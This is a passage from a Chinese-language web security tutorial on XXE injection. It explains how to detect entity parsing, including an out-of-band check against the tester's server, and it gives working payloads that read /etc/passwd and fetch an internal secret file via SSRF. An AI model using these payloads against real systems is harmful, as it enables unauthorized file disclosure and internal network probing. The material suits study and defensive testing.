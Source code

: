 ![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcq3D6frZ7ibtepGt4OHxwISlJeWKX4Wc5ia40Ntic538Eic2hWH0YOwvicZxTiaLsg0MA6icBSl4TcwpdGkA/640?wx_fmt=png)

如果数据包或页面中存在 “Hello XXE” 的字样，则表名实体已被解析。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcq3D6frZ7ibtepGt4OHxwISlgpwtlRewE4WxFfSKdsSeCS9LBm9ib3mEtbiadI4SElaibBbQDq8fgKw7Q/640?wx_fmt=png)

接下来检测该端点是否支持 DTD 引用外部实体：

```
<?xml version=”1.0” encoding=”UTF-8”?>
<!DOCTYPE ANY \[
<!ENTITY % name SYSTEM "http://localhost/tp5/test.xml">
%name;
\]>
```

此时通过查看自己服务器上的日志来判断，看目标服务器是否向你的服务器发了一条请求 test.xml 的 HTTP request。

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcq3D6frZ7ibtepGt4OHxwISlOmibaPdUFhnicat18KtdUwdcwymeFRicuAR0W0NWia9FHY5iaCTWeSKD22g/640?wx_fmt=png)

如图所示，则该处很可能存在 XML 外部实体注入漏洞。

另外，许多服务端开发框架 (比如基于 RESTful 服务的 JAX-RS) 也允许基于数据交换的 XML 格式作为输入，甚至是输出。

如果可以进行这种替换，可以通过修改请求头中的 Content-Type 的值 (比如修改成 text/xml 或者 application/xml) 来进行验证触发。

即使客户端只能使用 JSON 格式或者是直接路径或者是参数查询的方式来访问服务。

对于传统的 XXE 来说，要求攻击者只有在服务器有回显或者报错的基础上才能使用 XXE 漏洞来读取服务器端文件，

如果没有回显则可以使用 Blind XXE 漏洞来构建一条带外信道提取数据。

这块知识在下面的`XXE利用`中有详细介绍。

### 四. XXE 利用及 payload

以下利用主要基于`libxml2`版本，其中 libxml 是 PHP 的 xml 支持。  
而 libxml 版本在 2.9.1 及以后，默认不解析外部实体，很多利用将无法实现。

#### 文件读取

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe \[
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >\]>
<root>
<name>&xxe;</name>
</root>
```

文件读取的利用和 payload 非常好理解，即使用 file 协议读取文件内容，并输出到页面上（有回显的情况）。

#### SSRF

XXE 可以与 SSRF（服务端请求伪造） 漏洞一起用于探测其它内网主机的信息，基于 http 协议。

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo \[
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret\_pass.txt" >
\]>
<foo>&xxe;</foo>
```
